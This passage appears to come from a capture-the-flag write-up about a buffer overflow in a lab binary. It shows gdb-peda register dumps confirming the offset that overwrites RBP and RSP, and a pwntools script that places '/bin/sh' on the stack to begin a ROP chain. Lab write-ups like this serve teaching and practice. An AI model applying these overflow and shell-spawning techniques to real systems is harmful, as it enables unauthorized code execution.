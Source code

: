 ```bash
gdb-peda$ c
Continuing.
Reading /lib/x86_64-linux-gnu/libc.so.6 from remote target...
[Detaching after vfork from child process 110195]

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7f95519f0f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x21332a0 ("What do you want me to echo back? ", 'A' <repeats 120 times>, 'B' <repeats 24 times>, "\n")
RDI: 0x7f9551ac3670 --> 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffd6b53b328 ('B' <repeats 24 times>)
RIP: 0x4011ac (<main+77>:       ret)
```

Shows that `rsi` contains that whole gets message and the string we passed. Then `rbp` is written with 8 bytes of A's and all the 24 B's we passed have gone to `rsp`. So we can confirm the offset is correct. We can successfully write anything we like in `RSP`.

# Writing /bin/sh onto RDI

```bash
#!/usr/bin/python3
from pwn import *

p = gdb.debug('./myapp','''
set follow-fork-mode parent
''')

junk =("A"* 112).encode()
shell = "/bin/sh\x00".encode()

p.sendline(junk + shell)
p.interactive()
```

Since, `/bin/sh\x00` is 8 bytes (/bin/sh - 7 bytes and then a null byte to terminate the string), if we've to keep that at the top of the stack, we'll keep it at the end. Hence junk is just 112 bytes now. Refer [ROP with test()](https://0xcaretaker.github.io/posts/Safe/#rop-with-test) above for details.

When we run the script, we get SIGSEGV caused by an invalid memory reference. 
But we're able to write into `rbp` which will eventually end up onto `rsp` and then `rdi` when test() is called. I just need to fix the rest of the binary now.

```bash
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7fe282a25f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0xe512a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "/bin/sh\n")
RDI: 0x7fe282af8670 --> 0x0
RBP: 0x68732f6e69622f ('/bin/sh')
```
